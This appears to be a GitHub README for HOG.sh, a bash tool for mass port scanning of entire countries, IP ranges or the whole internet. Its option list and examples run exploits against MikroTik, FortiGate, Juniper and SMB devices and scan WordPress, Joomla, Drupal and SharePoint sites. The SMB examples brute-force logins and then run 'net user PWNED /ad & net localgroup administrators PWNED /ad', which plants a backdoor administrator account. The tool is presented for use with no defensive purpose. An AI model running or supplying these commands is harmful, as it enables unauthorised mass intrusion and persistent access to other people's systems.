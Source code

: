 # HOG
Options:</br>
        -c  get specefic country ip</br>
        -o for path of save ip /tmp/ips</br>
        -p for just one port scanning like -p 80 get all 80 port</br>
        -pp for scanning multi port like -pp 80,3389,22</br>
        -r for specefic range like 1.1.1.1-2.2.2.2</br>
        -l for import file ip range for scanning you file must be cidr ip range like 1.1.1.0/24</br>
        -s for give me site target.com i will check you site range port scanning you can use -p or -pp for site range</br>
        -e for exploiting support mikrotik fortigate smb juniper</br>
        -scan for scanning support wordpress joomla drupal sharepoint</br>
        -uf user file  this switch use for smb exploit brute force for compelte smb exploit</br>
        -pf password file this switch use for smb exploit brute force for compelte smb exploit</br>
        -cmd this switch use for smb exploit you can add your desire command that want run after exploiting see down here in examples"</br>
      
Examples:</br>
bash HOG.sh -c CountryNAME -p 80 -o /tmp/CountryName80</br>
bash HOG.sh -c CountryName -pp 80,3389  -o  /tmp/CountryName80-3389</br>
bash HOG.sh -r 1.1.1.1-2.2.2.2 -p 80 -o /tmp/rangeport80</br>
bash HOG.sh -r 1.1.1.1-2.2.2.2 -pp 80,3389 -o /tmp/rangeport80-3389</br>
bash HOG.sh -l /tmp/target -p 80 -o /tmp/target80</br>
bash HOG.sh -l  /tmp/target  -pp 80,3389 -o /tmp/target80-3389</br>
bash HOG.sh -s x.com  -p 80  -o  /tmp/xrange80</br>
bash HOG.sh -s x.com -pp 80,3389  -o   /tmp/xrange80-3389</br>
bash HOG.sh -cs  -p 445 -o  /tmp/world445</br>
bash HOG.sh -e smb -c CountryName -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"</br>
bash HOG.sh -e smb -r 1.1.1.1-2.2.2.2 -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"</br>
bash HOG.sh -e smb -l /tmp/target  -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"</br>
bash HOG.sh -e smb -cs   -uf usr -pf pwd -cmd \"net user PWNED /ad & net localgroup administrators PWNED /ad\"</br>
bash HOG.sh -e mikrotik -c CountryName  -o /tmp/CountryNamemikexp</br>
bash HOG.sh -e mikrotik -r 1.1.1.1-2.2.2.2 -o /tmp/rangemikrotikexp</br>
bash HOG.sh -e mikrotik -l /tmp/target -o /tmp/targetmikrotikexp</br>
bash HOG.sh -e mikrotik -cs   -o /tmp/worldmikrotikexp</br>
bash HOG.sh -e fortigate -c CountryName -o /tmp/CountryNamefortigateexp</br>
bash HOG.sh -e fortigate -r 1.1.1.1-2.2.2.2 -o /tmp/rangefortigateexp</br>
bash HOG.sh -e fortigate -l /tmp/target -o /tmp/targetfortigateexp</br>
bash HOG.sh -e fortigate -cs   -o /tmp/worldfortigateexp</br>
bash HOG.sh -e juniper -c CountryName -o /tmp/afghanjuniperexp</br>
bash HOG.sh -e juniper -r 1.1.1.1-2.2.2.2 -o /tmp/rangejuniperexp</br>
bash HOG.sh -e juniper -l /tmp/target  -o /tmp/targetjuniperexp</br>
bash HOG.sh -e juniper -cs   -o /tmp/worldjuniperexp</br>
bash HOG.sh -scan wordpress -l /tmp/wpfile -o /tmp/wpout</br>
bash HOG.sh -scan joomla -l /tmp/joomfile -o /tmp/joomout</br>
bash HOG.sh -scan sharepoint -l /tmp/spfile -o /tmp/sharepointout</br>
bash HOG.sh -scan drupal -l /tmp/drupfile -o /tmp/drupalout </br>
bash HOG.sh -dns</br>
bash HOG.sh -sub</br>
bash HOG.sh -l /tmp/targets -checks -o /tmp/targets/ </br>
bash HOG.sh -c CountryName -router -o /tmp/afghanrouters/ </br>
bash HOG.sh -c CountryName -range -o /tmp/afghanrange </br>
bash HOG.sh -l /tmp/sshcheck -ssh -o /tmp/sshenum</br>
bash HOG.sh -l /tmp/rdp -rdp /tmp/screenshot/ </br>
bash HOG.sh -l /tmp/tg -scan webserver -o /tmp/webserver</br>
bash HOG.sh -l /tmp/tg -headers -o /tmp/header "</br>

